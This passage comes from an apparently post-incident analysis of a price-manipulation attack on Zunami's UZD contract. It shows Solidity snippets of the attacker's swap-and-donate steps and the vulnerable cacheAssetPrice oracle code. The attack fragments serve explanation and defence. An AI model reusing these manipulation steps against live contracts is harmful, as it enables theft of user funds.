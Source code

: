``` solidity
// swap WETH to SDT
ETH_SDT_POOL.exchange(0, 1, 11 ether, 0, false, address(this)); 
// donate SDT to MIMCurveStakeDao, inflate UZD balance
SDT.transfer(MIMCurveStakeDao, SDT.balanceOf(address(this)));
```

4. Continue price manipulation by exchanging 10,000 WETH for approximately 58,043 SDT and converting 7,000,000 USDT into about 2,154 WETH on SushiSwap.

``` solidity 
// swap WETH to SDT by sushi router
swapToken1Totoken2(WETH, SDT, 10_000 ether);
// swap USDT to WETH by sushi router
uint256 value = swapToken1Totoken2(USDT, WETH, 7_000_000 * 1e6);
```
5.  Utilize the `cachessetPrice` function to capture and store the current price snapshot in UZD, effectively caching the market rates at this moment.

### Vulnerable Code
Let's examine the code that presents vulnerabilities:

``` solidity
function cacheAssetPrice() public virtual {
    _blockCached = block.number;
    uint256 currentAssetPrice = assetPrice();
    if (_assetPriceCached < currentAssetPrice) {
        _assetPriceCached = currentAssetPrice;
        emit CachedAssetPrice(_blockCached, _assetPriceCached);
    }
}

function assetPrice() public view override returns (uint256) {
    return priceOracle.lpPrice();
}

// priceOracle defined in the constructor
constructor(address priceOracle_) {
    _setupRole(DEFAULT_ADMIN_ROLE, msg.sender);

    require(priceOracle_ != address(0), 'Zero price oracle');
    priceOracle = IAssetPriceOracle(priceOracle_);

    cacheAssetPrice();
}
```
 The focal point of our examination is the address of the priceOracle, particularly how the ZunamiElasticRigidVault is both initiated and utilized. Within this setup, the UZD contract inherits from the ZunamiElasticRigidVault, highlighting a specific constant address, `ZUNAMI`, which is pivotal to the contract's functionality. 

The construction of the UZD contract employs this `ZUNAMI` address to initiate its base properties, encapsulating the essence of the ZunamiElasticRigidVault's design and functionality. 
